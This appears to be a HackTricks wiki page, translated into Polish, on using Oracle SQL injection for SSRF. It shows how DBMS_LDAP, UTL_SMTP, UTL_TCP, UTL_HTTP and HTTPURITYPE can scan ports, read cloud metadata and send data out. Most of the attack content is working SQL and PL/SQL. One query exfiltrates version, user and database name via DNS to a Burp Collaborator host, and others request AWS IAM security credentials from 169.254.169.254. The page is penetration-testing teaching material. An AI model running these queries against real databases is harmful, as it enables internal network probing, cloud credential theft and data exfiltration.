 # Oracle injection

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

**Zaserwuj ten post jako kopię z wayback machine usuniętego posta z [https://ibreak.software/2020/06/using-sql-injection-to-perform-ssrf-xspa-attacks/](https://ibreak.software/2020/06/using-sql-injection-to-perform-ssrf-xspa-attacks/)**.

## SSRF

Używanie Oracle do wykonywania żądań HTTP i DNS Out of Band jest dobrze udokumentowane, ale jako sposób na eksfiltrację danych SQL w iniekcjach. Zawsze możemy modyfikować te techniki/funkcje, aby wykonać inne SSRF/XSPA.

Instalacja Oracle może być naprawdę bolesna, szczególnie jeśli chcesz szybko skonfigurować instancję, aby wypróbować polecenia. Mój przyjaciel i kolega z [Appsecco](https://appsecco.com), [Abhisek Datta](https://github.com/abhisek), wskazał mi [https://github.com/MaksymBilenko/docker-oracle-12c](https://github.com/MaksymBilenko/docker-oracle-12c), co pozwoliło mi skonfigurować instancję na maszynie t2.large AWS Ubuntu i Docker.

Uruchomiłem polecenie docker z flagą `--network="host"`, aby móc naśladować Oracle jako natywną instalację z pełnym dostępem do sieci, przez cały czas trwania tego wpisu na blogu.
```
docker run -d --network="host" quay.io/maksymbilenko/oracle-12c
```
#### Pakiety Oracle, które wspierają specyfikację URL lub nazwy hosta/numeru portu <a href="#oracle-packages-that-support-a-url-or-a-hostname-port-number-specification" id="oracle-packages-that-support-a-url-or-a-hostname-port-number-specification"></a>

Aby znaleźć jakiekolwiek pakiety i funkcje, które wspierają specyfikację hosta i portu, przeprowadziłem wyszukiwanie w Google na [Dokumentacji Online Oracle Database](https://docs.oracle.com/database/121/index.html). Konkretne,
```
site:docs.oracle.com inurl:"/database/121/ARPLS" "host"|"hostname" "port"|"portnum"
```
Wynik wyszukiwania zwrócił następujące rezultaty (nie wszystkie mogą być użyte do wykonywania wychodzącej sieci)

* DBMS\_NETWORK\_ACL\_ADMIN
* UTL\_SMTP
* DBMS\_XDB
* DBMS\_SCHEDULER
* DBMS\_XDB\_CONFIG
* DBMS\_AQ
* UTL\_MAIL
* DBMS\_AQELM
* DBMS\_NETWORK\_ACL\_UTILITY
* DBMS\_MGD\_ID\_UTL
* UTL\_TCP
* DBMS\_MGWADM
* DBMS\_STREAMS\_ADM
* UTL\_HTTP

To proste wyszukiwanie oczywiście pomija pakiety takie jak `DBMS_LDAP` (który pozwala na podanie nazwy hosta i numeru portu), ponieważ [strona dokumentacji](https://docs.oracle.com/database/121/ARPLS/d\_ldap.htm#ARPLS360) po prostu kieruje cię do [innej lokalizacji](https://docs.oracle.com/database/121/ARPLS/d\_ldap.htm#ARPLS360). Dlatego mogą istnieć inne pakiety Oracle, które mogą być nadużywane do wykonywania wychodzących żądań, które mogłem przeoczyć.

W każdym razie, przyjrzyjmy się niektórym z pakietów, które odkryliśmy i wymieniliśmy powyżej.

**DBMS\_LDAP.INIT**

Pakiet `DBMS_LDAP` umożliwia dostęp do danych z serwerów LDAP. Funkcja `init()` inicjalizuje sesję z serwerem LDAP i przyjmuje nazwę hosta oraz numer portu jako argument.

Funkcja ta była wcześniej dokumentowana, aby pokazać eksfiltrację danych przez DNS, jak poniżej
```
SELECT DBMS_LDAP.INIT((SELECT version FROM v$instance)||'.'||(SELECT user FROM dual)||'.'||(select name from V$database)||'.'||'d4iqio0n80d5j4yg7mpu6oeif9l09p.burpcollaborator.net',80) FROM dual;
```
Jednakże, biorąc pod uwagę, że funkcja akceptuje nazwę hosta i numer portu jako argumenty, możesz to wykorzystać, aby działało jak skaner portów.

Oto kilka przykładów
```
SELECT DBMS_LDAP.INIT('scanme.nmap.org',22) FROM dual;
SELECT DBMS_LDAP.INIT('scanme.nmap.org',25) FROM dual;
SELECT DBMS_LDAP.INIT('scanme.nmap.org',80) FROM dual;
SELECT DBMS_LDAP.INIT('scanme.nmap.org',8080) FROM dual;
```
A `ORA-31203: DBMS_LDAP: PL/SQL - Init Failed.` wskazuje, że port jest zamknięty, podczas gdy wartość sesji wskazuje, że port jest otwarty.

**UTL\_SMTP**

Pakiet `UTL_SMTP` jest zaprojektowany do wysyłania e-maili przez SMTP. Przykład podany na [stronie dokumentacji Oracle pokazuje, jak można użyć tego pakietu do wysłania e-maila](https://docs.oracle.com/database/121/ARPLS/u\_smtp.htm#ARPLS71478). Dla nas jednak interesującą rzeczą jest możliwość podania specyfikacji hosta i portu.

Poniżej przedstawiono prosty przykład z funkcją `UTL_SMTP.OPEN_CONNECTION`, z limitem czasu wynoszącym 2 sekundy.
```
DECLARE c utl_smtp.connection;
BEGIN
c := UTL_SMTP.OPEN_CONNECTION('scanme.nmap.org',80,2);
END;
```

```
DECLARE c utl_smtp.connection;
BEGIN
c := UTL_SMTP.OPEN_CONNECTION('scanme.nmap.org',8080,2);
END;
```
A `ORA-29276: transfer timeout` wskazuje, że port jest otwarty, ale nie nawiązano połączenia SMTP, podczas gdy `ORA-29278: SMTP transient error: 421 Service not available` wskazuje, że port jest zamknięty.

**UTL\_TCP**

Pakiet `UTL_TCP` oraz jego procedury i funkcje umożliwiają [komunikację opartą na TCP/IP z usługami](https://docs.oracle.com/cd/B28359_01/appdev.111/b28419/u_tcp.htm#i1004190). Jeśli jest zaprogramowany dla konkretnej usługi, ten pakiet może łatwo stać się sposobem na dostęp do sieci lub wykonywać pełne żądania po stronie serwera, ponieważ wszystkie aspekty połączenia TCP/IP mogą być kontrolowane.

Przykład [na stronie dokumentacji Oracle pokazuje, jak można użyć tego pakietu do nawiązania surowego połączenia TCP w celu pobrania strony internetowej](https://docs.oracle.com/cd/B28359_01/appdev.111/b28419/u_tcp.htm#i1004190). Możemy to nieco uprościć i użyć go do wysyłania żądań do instancji metadanych na przykład lub do dowolnej usługi TCP/IP.
```
set serveroutput on size 30000;
SET SERVEROUTPUT ON
DECLARE c utl_tcp.connection;
retval pls_integer;
BEGIN
c := utl_tcp.open_connection('169.254.169.254',80,tx_timeout => 2);
retval := utl_tcp.write_line(c, 'GET /latest/meta-data/ HTTP/1.0');
retval := utl_tcp.write_line(c);
BEGIN
LOOP
dbms_output.put_line(utl_tcp.get_line(c, TRUE));
END LOOP;
EXCEPTION
WHEN utl_tcp.end_of_input THEN
NULL;
END;
utl_tcp.close_connection(c);
END;
/
```

```
DECLARE c utl_tcp.connection;
retval pls_integer;
BEGIN
c := utl_tcp.open_connection('scanme.nmap.org',22,tx_timeout => 4);
retval := utl_tcp.write_line(c);
BEGIN
LOOP
dbms_output.put_line(utl_tcp.get_line(c, TRUE));
END LOOP;
EXCEPTION
WHEN utl_tcp.end_of_input THEN
NULL;
END;
utl_tcp.close_connection(c);
END;
```
Ciekawie, z powodu możliwości tworzenia surowych żądań TCP, ten pakiet może być również używany do zapytań do usługi metadanych instancji wszystkich dostawców chmury, ponieważ typ metody i dodatkowe nagłówki mogą być przekazywane w żądaniu TCP.

**UTL\_HTTP i żądania sieciowe**

Być może najczęściej stosowaną i szeroko udokumentowaną techniką w każdym poradniku na temat Out of Band Oracle SQL Injection jest pakiet [`UTL_HTTP`](https://docs.oracle.com/database/121/ARPLS/u_http.htm#ARPLS070). Pakiet ten jest zdefiniowany w dokumentacji jako - `Pakiet UTL_HTTP wykonuje wywołania protokołu Hypertext Transfer Protocol (HTTP) z SQL i PL/SQL. Możesz go użyć do uzyskania dostępu do danych w Internecie za pośrednictwem HTTP.`
```
select UTL_HTTP.request('http://169.254.169.254/latest/meta-data/iam/security-credentials/adminrole') from dual;
```
Możesz dodatkowo użyć tego do przeprowadzenia podstawowego skanowania portów za pomocą zapytań takich jak
```
select UTL_HTTP.request('http://scanme.nmap.org:22') from dual;
select UTL_HTTP.request('http://scanme.nmap.org:8080') from dual;
select UTL_HTTP.request('http://scanme.nmap.org:25') from dual;
```
`ORA-12541: TNS:no listener` lub `TNS:operation timed out` to znak, że port TCP jest zamknięty, podczas gdy `ORA-29263: HTTP protocol error` lub dane to znak, że port jest otwarty.

Innym pakietem, którego używałem w przeszłości z różnym powodzeniem, jest [`GETCLOB()` metoda typu abstrakcyjnego `HTTPURITYPE` Oracle](https://docs.oracle.com/database/121/ARPLS/t_dburi.htm#ARPLS71705), która pozwala na interakcję z URL i zapewnia wsparcie dla protokołu HTTP. Metoda `GETCLOB()` jest używana do pobierania odpowiedzi GET z URL jako [typ danych CLOB.](https://docs.oracle.com/javadb/10.10.1.2/ref/rrefclob.html)[select HTTPURITYPE('http://169.254.169.254/latest/meta-data/instance-id').getclob() from dual;

{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie dla HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegram**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Dziel się trikami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów na githubie.

</details>
{% endhint %}
